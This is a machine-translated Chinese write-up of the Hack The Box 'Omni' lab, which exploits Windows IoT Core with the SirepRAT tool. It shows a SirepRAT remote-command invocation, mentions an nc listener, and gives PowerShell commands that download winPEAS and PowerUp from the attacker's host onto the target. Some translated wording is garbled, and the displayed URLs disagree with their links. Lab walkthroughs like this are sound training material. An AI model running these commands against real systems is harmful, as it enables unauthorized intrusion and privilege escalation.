# HTB·奥米[报道]

> 原文：<https://infosecwriteups.com/htb-omni-writeup-7efdc6fd1c10?source=collection_archive---------0----------------------->

## 使用 SireRAT 开发 Windows 物联网核心

# 摘要

这是一台易受远程代码执行攻击的 windows IoT 机器(RCE)。一种名为 SirepRAT 的远程访问特洛伊木马(RAT)工具被用来利用此漏洞获取根用户。



Jorge Ramirez 在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

**操作系统:** Windows 10 IOT 核心 x64 位架构

**使用的工具:**

*   nmap
*   锡雷普拉特— Windows IOT RCE

## 侦察和枚举- NMAP TCP 输出



## 据点

*** * * * * * * * * *端口 8080 微软 IIS httpd * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***



切换到端口 8080，我们可以看到访问这个名为“Windows 设备门户”的站点需要身份验证。我在谷歌上搜索了“windows IoT exploit”，并注意到了一篇关于利用这个漏洞的开源工具的文章。



使用此[连杆](https://github.com/SafeBreach-Labs/SirepRAT)安装 SireRAT。

**通过执行以下命令**找出系统主机名

`python /usr/local/bin/SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd “C:\Windows\System32\hostname.exe”`

`—return_output`返回命令输出

`—cmd`命令执行



## 启动 nc 监听器并执行 powershell



`powershell invoke-webrequest -uri [http://10.10.14.24/windows/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe](http://10.10.14.17:8777/windows/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe) -outfile C:\Windows\temp\winpeas.exe`

`powershell invoke-webrequest -uri [http://10.10.14.24/windows/](http://10.10.14.17:8777/windows/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe)powerup.ps1 -outfile C:\Windows\temp\powerup.ps1`



## 横向运动

在使用 winpPEAS.bat 枚举盒子时，我发现还有两个磁盘:D:和 U:



使用找到的用户应用程序凭据，我尝试登录身份验证门户。



使用 [ref1](https://devblogs.microsoft.com/scripting/decrypt-powershell-secure-string-password/) 和 [ref2](https://www.thinbug.com/q/55807201) 解密 powershell 安全字符串密码。



## 权限提升



## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！